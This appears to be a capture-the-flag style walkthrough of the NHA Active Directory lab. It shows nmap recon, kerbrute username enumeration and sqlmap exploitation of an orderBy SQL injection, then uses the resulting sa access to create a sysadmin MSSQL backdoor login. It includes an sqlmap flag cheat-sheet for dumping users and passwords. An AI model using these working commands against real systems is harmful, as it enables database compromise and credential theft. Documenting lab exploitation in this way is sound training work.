Complete Training Challenge
NINJA HACKER ACADEMY (NHA) is written as a training challenge where GOAD was written as a lab with a maximum of vulns. You should find your way in to get domain admin on the 2 domains (academy.ninja.lan and ninja.hack)
Flags are disposed on each machine, try to grab all. Be careful all the machines are up to date with defender enabled. Some exploits needs to modify path so this lab is not very multi-players compliant (unless you do it as a team ;)) Obviously do not cheat by looking at the passwords and flags in the recipe files, the lab must start without user to full compromise.
Recon Phase
Let’s start by doing the recon on the network by scanning it using nmap. I normally like to scan the open ports first then enumerate the services running on the open ports, so o use the command as it is below. Ports=$( sudo nmap -p- --min-rate 300 --max-rate 500 -Pn 192.168.58.0/24 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed "s/,$//") sudo nmap -sC -sV -p$Ports -oN Full_TCP_Scan_245 192.168.58.0/24
192.168.58.10
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-10-16 11:11:38Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ninja.hack0., Site: Default-First-Site-Name)
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc-vil.ninja.hack
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc-vil.ninja.hack
| Not valid before: 2024-10-16T08:00:00
|_Not valid after: 2025-10-16T08:00:00
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: ninja.hack0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc-vil.ninja.hack
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc-vil.ninja.hack
| Not valid before: 2024-10-16T08:00:00
|_Not valid after: 2025-10-16T08:00:00
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
1433/tcp filtered ms-sql-s
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ninja.hack0., Site: Default-First-Site-Name)
|_ssl-date: 2024-10-16T11:14:08+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=dc-vil.ninja.hack
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc-vil.ninja.hack
| Not valid before: 2024-10-16T08:00:00
|_Not valid after: 2025-10-16T08:00:00
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: ninja.hack0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc-vil.ninja.hack
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc-vil.ninja.hack
| Not valid before: 2024-10-16T08:00:00
|_Not valid after: 2025-10-16T08:00:00
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc-vil.ninja.hack
| Not valid before: 2024-10-15T07:55:01
|_Not valid after: 2025-04-16T07:55:01
|_ssl-date: 2024-10-16T11:14:08+00:00; 0s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn:
|_ http/1.1
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2024-10-14T16:25:27
|_Not valid after: 2027-10-14T16:25:27
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp filtered winrm
49664/tcp filtered unknown
49665/tcp filtered unknown
49666/tcp filtered unknown
49667/tcp filtered unknown
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp filtered unknown
49670/tcp open msrpc Microsoft Windows RPC
49671/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open msrpc Microsoft Windows RPC
49689/tcp open msrpc Microsoft Windows RPC
49700/tcp filtered unknown
49703/tcp open msrpc Microsoft Windows RPC
49749/tcp filtered unknown
58752/tcp filtered unknown
59321/tcp open msrpc Microsoft Windows RPC
MAC Address: 00:0C:29:A9:AB:DB (VMware)
Service Info: Host: DC-VIL; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_nbstat: NetBIOS name: DC-VIL, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:a9:ab:db (VMware)
| smb2-time:
| date: 2024-10-16T11:13:26
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required192.168.58.20
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp filtered http
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-10-16 11:11:45Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: academy.ninja.lan, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
1433/tcp filtered ms-sql-s
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: academy.ninja.lan, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc-ac.academy.ninja.lan
| Not valid before: 2024-10-15T07:55:00
|_Not valid after: 2025-04-16T07:55:00
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2024-10-14T16:27:06
|_Not valid after: 2027-10-14T16:27:06
|_ssl-date: 2024-10-16T11:14:09+00:00; +1s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| tls-alpn:
|_ http/1.1
9389/tcp open mc-nmf .NET Message Framing
47001/tcp filtered winrm
49664/tcp filtered unknown
49665/tcp filtered unknown
49666/tcp filtered unknown
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp filtered unknown
49669/tcp filtered unknown
49670/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49671/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open msrpc Microsoft Windows RPC
49689/tcp open msrpc Microsoft Windows RPC
49700/tcp filtered unknown
49703/tcp filtered unknown
49749/tcp filtered unknown
58752/tcp open msrpc Microsoft Windows RPC
59321/tcp filtered unknown
MAC Address: 00:0C:29:F6:76:29 (VMware)
Service Info: Host: DC-AC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2024-10-16T11:13:30
|_ start_date: N/A
|_nbstat: NetBIOS name: DC-AC, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:f6:76:29 (VMware)192.168.58.21
Nmap scan report for 192.168.58.21
Host is up (0.00067s latency).
Not shown: 28 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Home Page - NHA - Ninja Hacker Academy
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=web.academy.ninja.lan
| Not valid before: 2024-10-15T07:59:28
|_Not valid after: 2025-04-16T07:59:28
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn:
|_ http/1.1
|_http-title: Not Found
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2024-10-14T16:28:36
|_Not valid after: 2027-10-14T16:28:36
MAC Address: 00:0C:29:26:52:20 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2024-10-16T11:13:31
|_ start_date: N/A192.168.58.22
Nmap scan report for 192.168.58.22
Host is up (0.0013s latency).
PORT STATE SERVICE VERSION
53/tcp closed domain
80/tcp closed http
88/tcp closed kerberos-sec
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp closed ldap
445/tcp open microsoft-ds?
464/tcp closed kpasswd5
593/tcp closed http-rpc-epmap
636/tcp closed ldapssl
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
| 192.168.58.22:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-10-16T09:37:07
|_Not valid after: 2054-10-16T09:37:07
| ms-sql-ntlm-info:
| 192.168.58.22:1433:
| Target_Name: ACADEMY
| NetBIOS_Domain_Name: ACADEMY
| NetBIOS_Computer_Name: SQL
| DNS_Domain_Name: academy.ninja.lan
| DNS_Computer_Name: sql.academy.ninja.lan
| DNS_Tree_Name: academy.ninja.lan
|_ Product_Version: 10.0.17763
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
3268/tcp closed globalcatLDAP
3269/tcp closed globalcatLDAPssl
3389/tcp open ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
| rdp-ntlm-info:
| Target_Name: ACADEMY
| NetBIOS_Domain_Name: ACADEMY
| NetBIOS_Computer_Name: SQL
| DNS_Domain_Name: academy.ninja.lan
| DNS_Computer_Name: sql.academy.ninja.lan
| DNS_Tree_Name: academy.ninja.lan
| Product_Version: 10.0.17763
|_ System_Time: 2024-10-16T11:13:25+00:00
| ssl-cert: Subject: commonName=sql.academy.ninja.lan
| Not valid before: 2024-10-15T07:59:28
|_Not valid after: 2025-04-16T07:59:28
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2024-10-16T11:14:09+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2024-10-14T16:30:08
|_Not valid after: 2027-10-14T16:30:08
| tls-alpn:
|_ http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp closed adws
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49673/tcp closed unknown
49674/tcp closed unknown
49689/tcp closed unknown
49700/tcp open msrpc Microsoft Windows RPC
49703/tcp closed unknown
49749/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
| 192.168.58.22:49749:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 49749
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
| ms-sql-ntlm-info:
| 192.168.58.22:49749:
| Target_Name: ACADEMY
| NetBIOS_Domain_Name: ACADEMY
| NetBIOS_Computer_Name: SQL
| DNS_Domain_Name: academy.ninja.lan
| DNS_Computer_Name: sql.academy.ninja.lan
| DNS_Tree_Name: academy.ninja.lan
|_ Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-10-16T09:37:07
|_Not valid after: 2054-10-16T09:37:07
58752/tcp closed unknown
59321/tcp closed unknown
MAC Address: 00:0C:29:5E:96:FC (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_nbstat: NetBIOS name: SQL, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:5e:96:fc (VMware)
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2024-10-16T11:13:35
|_ start_date: N/A192.168.58.23
Nmap scan report for 192.168.58.23
Host is up (0.00072s latency).
Not shown: 29 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=share.academy.ninja.lan
| Not valid before: 2024-10-15T07:59:29
|_Not valid after: 2025-04-16T07:59:29
|_ssl-date: 2024-10-16T11:14:09+00:00; +1s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2024-10-14T16:31:36
|_Not valid after: 2027-10-14T16:31:36
|_ssl-date: 2024-10-16T11:14:09+00:00; 0s from scanner time.
|_http-title: Not Found
| tls-alpn:
|_ http/1.1
MAC Address: 00:0C:29:14:F5:19 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2024-10-16T11:13:39
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not requiredWe have scanned the network with nmap and we have the output above.
Finding Windows machines on the Network
Our next move is to find the windows machines in the network. A quick recon can be done using NetExec. Here we will confirm all the hosts that are Windows related. netexec smb 192.168.58.0/24

It’s possible to see that we do have 5 Windows machines on this network. We also know that Microsoft setup DC SMB signing as true by default. So all the DCs are the one with signing at true. (In a secure environment signing must true everywhere to avoid NTLM-Relay)
Domains
Ninja.hack
DC-VIL: 192.168.58.10: dc-vil.ninja.hack
Ninja.lan
DC-AC: 192.168.58.20: dc-ac.academy.ninja.lan
WEB: 192.168.58.21: web.academy.ninja.lan
SQL: 192.168.58.22: sql.academy.ninja.lan
SHARE: 192.168.58.23: share.academy.ninja.lan
Setting up FQDN
A fully qualified domain name, sometimes also referred to as an absolute domain name, is a domain name that specifies its exact location in the tree hierarchy of the Domain Name System. It specifies all domain levels, including the top-level domain and the root zone.

Why do we configure an FQDN?
FQDNs are easier to remember than IP addresses and are needed to configure the DNS and IP address of a device on the internet. For example, when trying to reach Google, it's much easier to type google.com in the browser, instead of finding and typing its numerical IP address. Getting an SSL certificate.
DNSMASQ
Dnsmasq is designed to act as a DNS forwarder, DHCP server, and TFTP server for small networks. You can use dnsmasq as an alternative to configuring separate DHCP and TFTP services. First we start by installing dnsmasq sudo apt install -y dnsmasq
Then we need to do some small configurations. We will make dnsmasq to use /etc/hosts file to read the machines configured on the file for the translation. Let’s config the /etc/hosts file and add the IPs of the machines we need and their names.
sudo vim /etc/hosts
Now we edit the /etc/resolv.conf file and add the follow configuration.
sudo vim /etc/resolv.conf
nameserver 127.0.0.1
Last but not list we need to start our dnsmasq and make it read the /etc/hosts file and we are ready to go. dnsmasq -H /etc/hosts
It’s all set, you can now test it by using host and the name of the servers and it will be translate it to the real IPs. host DC-VIL host DC-AC host WEB host SQL host SHARE

Setting Up Kerberos
We must install the Linux kerberos client sudo apt install krb5-user We need to configure /etc/krb5.conf file like this:

Now we are ready to start.
Enumerating academy.ninja.lan
I tried some Null Sessions enumerations to DC-AC (Domain Controller) inside domain academy.ninja.lan, but it didn’t work at all.
WEB
After doing a quick recon and enumeration on all the machines inside academy.ninja.hack, nothing special caught my attention, so I decided to focus on the web server. Inside this domain we do have a web server hosting what seems to be a hacker academy, let’s focus on webapp application. http://web.academy.ninja.lan

Reading the Webapp source code I can see 3 endpoints, Student, About and Contact.

I found a list of users inside /Students endpoint. http://web.academy.ninja.lan/Students

Inside the /Contact endpoint I found 4 mail accounts, belonging to 2 people, one for academy.ninja.lan and the other for ninja.hack domain. http://web.academy.ninja.lan/Home/Contact

frank.umino@ninja.hack
frank@academy.ninja.lan
olivia.davis@ninja.hacker
olivia@academy.ninja.lanSo I analyzed the pattern of the mail accounts and it seems like only one name is used for mail accounts on academy.ninja.lan domain, so I’m assuming that users mail accounts would be something like Noah@academy.ninja.lan. Because of that I’ll create a wordlist with the student names based on one name only.
Now let’s use this wordlist and create a mail account for each of the users. for users in $(cat USERS); do echo "$users@academy.ninja.lan"; done
Noah@academy.ninja.lan
Young@academy.ninja.lan
Samuel@academy.ninja.lan
Evans@academy.ninja.lan
Willa@academy.ninja.lan
Wilson@academy.ninja.lan
Zane@academy.ninja.lan
Harris@academy.ninja.lan
Ethan@academy.ninja.lan
Miller@academy.ninja.lan
Scott@academy.ninja.lan
Quinn@academy.ninja.lan
Victor@academy.ninja.lan
Gonzalez@academy.ninja.lan
Lee@academy.ninja.lan
Liam@academy.ninja.lan
Taylor@academy.ninja.lan
Brown@academy.ninja.lan
Sophia@academy.ninja.lan
Taylor@academy.ninja.lan
Charlie@academy.ninja.lan
Davis@academy.ninja.lan
Isabella@academy.ninja.lan
Yamanaka@academy.ninja.lan
David@academy.ninja.lan
Yara@academy.ninja.lan
Katherine@academy.ninja.lan
Uma@academy.ninja.lan
frank@academy.ninja.lan
olivia@academy.ninja.lan Fuzzing WEB
I then decided to do a fuzzing on the webapp to test the web application and find out if I would be able to find any possible hidden files or even a hidden directory Within the webapp that could lead to any possible juicy information.
feroxbuster -A -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -W 156,95 --url http://web.academy.ninja.lan|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.11.0
───────────────────────────┬──────────────────────
🎯 Target Url │ http://web.academy.ninja.lan
🚀 Threads │ 50
📖 Wordlist │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ Random
💉 Config File │ /etc/feroxbuster/ferox-config.toml
💢 Word Count Filter │ 156
💢 Word Count Filter │ 95
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
[####################] - 18m 2646646/2646646 0s found:28050 errors:12
[####################] - 17m 220546/220546 219/s http://web.academy.ninja.lan/
[####################] - 17m 220546/220546 219/s http://web.academy.ninja.lan/Content/
[####################] - 17m 220546/220546 219/s http://web.academy.ninja.lan/Home/
[####################] - 17m 220546/220546 219/s http://web.academy.ninja.lan/content/
[####################] - 17m 220546/220546 218/s http://web.academy.ninja.lan/scripts/
[####################] - 17m 220546/220546 218/s http://web.academy.ninja.lan/students/
[####################] - 17m 220546/220546 218/s http://web.academy.ninja.lan/fonts/
[####################] - 17m 220546/220546 218/s http://web.academy.ninja.lan/models/
[####################] - 17m 220546/220546 218/s http://web.academy.ninja.lan/Scripts/
[####################] - 17m 220546/220546 219/s http://web.academy.ninja.lan/Fonts/
[####################] - 16m 220546/220546 227/s http://web.academy.ninja.lan/Models/
[####################] - 12m 220546/220546 295/s http://web.academy.ninja.lan/SCRIPTS/ Well, the fuzzing did not give me that much of information.
Kerbrute Enumeration
Kerbrute is a tool used for enumerating and brute-forcing valid Active Directory (AD) accounts through the Kerberos protocol. It's often used by penetration testers and security professionals to identify valid usernames in a domain and test password strengths.
When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the username was invalid. Valid usernames will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, indicating that the user is required to perform pre-authentication.
It is also possible to enumerate users from DCs by brute Forcing valid users if we do have a good wordlist of valid users. For this we can user Kerbrute: https://github.com/ropnop/kerbrute/releases/tag/v1.0.3
Key Features of Kerbrute:
How It Works:
./kerbrute_linux userenum -d academy.ninja.lan --dc dc-ac.academy.ninja.lan users.txt __ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 10/16/24 - Ronnie Flathers @ropnop
2024/10/16 21:04:35 > Using KDC(s):
2024/10/16 21:04:35 > dc-ac.academy.ninja.lan:88
2024/10/16 21:04:35 > [+] VALID USERNAME: Noah@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Zane@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Samuel@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Ethan@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Willa@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Scott@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Victor@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Lee@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Taylor@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Sophia@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Taylor@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Charlie@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Isabella@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: David@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Katherine@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Yara@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: Uma@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: frank@academy.ninja.lan
2024/10/16 21:04:35 > [+] VALID USERNAME: olivia@academy.ninja.lan
2024/10/16 21:04:35 > Done! Tested 30 usernames (19 valid) in 0.010 secondsSQL Injection on parameter ‘orderBy’
While exploring the Hackers Academy web server, I observed parameters like SearchString and orderBy, which allowed searching for users by name and sorting the results by FirstName or LastName. Notably, all requests were sent via GET method. To streamline the attack and avoid manual enumeration, I decided to use the SQLMap tool for automated testing. sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=charlie%2522&orderBy=Firstname'

The SQL injection (SQLi) vulnerability identified using the sqlmap tool shows that the orderBy parameter in a GET method request is vulnerable.
The SQLmap tool tested the vulnerability with two payloads:
The web server running this application is based on Windows, using Microsoft IIS as the web server and ASP.NET for web applications. This means we could exploit this SQLi further to potentially dump the database or execute malicious commands on the database server.
So now that we know that we have an SQLi, it’s time to start enumerating and get the DBS name and many other information. Let’ start by enumerating the Databases. sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=charlie%2522&orderBy=Firstname' --batch --dbs

Databases found:
- Master
- Model
- msdb
- tempdb
Internal MSSQL Enumeration
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
DB Data enumeration
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump columnEnumerating some information inside MSSQL like hostname, current user and it's permission inside MSSQL.
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=charlie%2522&orderBy=Firstname' --batch --hostname --current-user --is-dba --threads=10
The output above shows us that current user is sa, which is a basically MSSQL highest privilege you can have on a MSSQL server.
MSSQL Account creation with sysadmin rights
I spent some time enumerating the MSSQL, I was able to retrieve valid information like the current user running the MSSQL and its privileges. I found that user is ‘sa’ and as we know ‘sa’ is a DBA, in this case it’s Database Administrator, meaning, this is the highest privilege we have inside MSSQL and with this privilege we can do absolutely everything. So I started by creating our own user inside SQL server and also giving high privilege rights to our user as well so we can access it straightforward and avoid this slow queries we are making with SQLMap. We can use the flag - -sql-shell to get an interactive session with MSSQL server.
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=charlie%2522&orderBy=Firstname' --batch --hostname --current-user --is-dba --threads=10 --sql-shellCREATE LOGIN stark WITH PASSWORD = 'Stark123!'EXEC sp_addsrvrolemember 'stark', 'sysadmin'
Then I tried to login with the new created account stark into sql.academy.ninja.lan and it worked.
mssqlclient.py 'academy.ninja.lan/stark:Stark123!@sql.academy.ninja.lan'
Users enumeration can be achieved using the following command.
